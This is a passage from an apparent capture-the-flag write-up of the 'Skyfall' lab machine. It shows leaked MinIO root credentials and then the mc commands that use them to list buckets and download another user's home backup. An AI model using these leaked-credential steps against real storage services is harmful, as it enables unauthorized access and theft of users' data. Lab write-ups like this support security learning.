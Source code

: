 ```json
  "MINIO_CONFIG_ENV_FILE": "config.env",
  "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
  "MINIO_PROMETHEUS_AUTH_TYPE": "public",
  "MINIO_ROOT_PASSWORD": "GkpjkmiVmpFuL2d3oRx0",
  "MINIO_ROOT_PASSWORD_FILE": "secret_key",
  "MINIO_ROOT_USER": "5GrE1B2YGGyZzNHZaIww",
  "MINIO_ROOT_USER_FILE": "access_key",
  "MINIO_SECRET_KEY_FILE": "secret_key",
  "MINIO_UPDATE": "off",
  "MINIO_UPDATE_MINISIGN_PUBKEY": "RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
}
```

And I have the MINIO_ROOT_USER and MINIO_ROOT_PASSWORD so I will try to make an alias for this MinIO instance:

```bash
❯ /home/gabri/minio-binaries/mc alias set skyfall-minio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0
```
```plaintext
Added `skyfall-minio` successfully.
```

It worked! Now I can run operations with it. The operation to see the buckets and files it [mc ls](https://min.io/docs/minio/linux/reference/minio-mc/mc-ls.html), so I will run it:

```bash
❯ /home/gabri/minio-binaries/mc ls --recursive --versions skyfall-minio
```
![mc ls output](/assets/images/Skyfall/mc-ls-output.png)

And I can see the files belonging to each user and also the ones of guest (which are mine). The most intereseting ones are the different versions of home_backup.tar.gz of askyy. I will start with the one that occupies more as it probably has more data. I will download it using [mc cp](https://min.io/docs/minio/linux/reference/minio-mc/mc-cp.html) and the --version-id parameter:

```bash
❯ /home/gabri/minio-binaries/mc cp skyfall-minio/askyy/home_backup.tar.gz home_backup.tar.gz --vid '3c498578-8dfe-43b7-b679-32a3fe42018f'
```

Decompressing and viewing the contents as expected shows askyy's home:

```bash
❯ mkdir askyy_home_v1
❯ mv home_backup.tar.gz askyy_home_v1
❯ cd askyy_home_v1
❯ tar -xf home_backup.tar.gz
❯ rm home_backup.tar.gz
```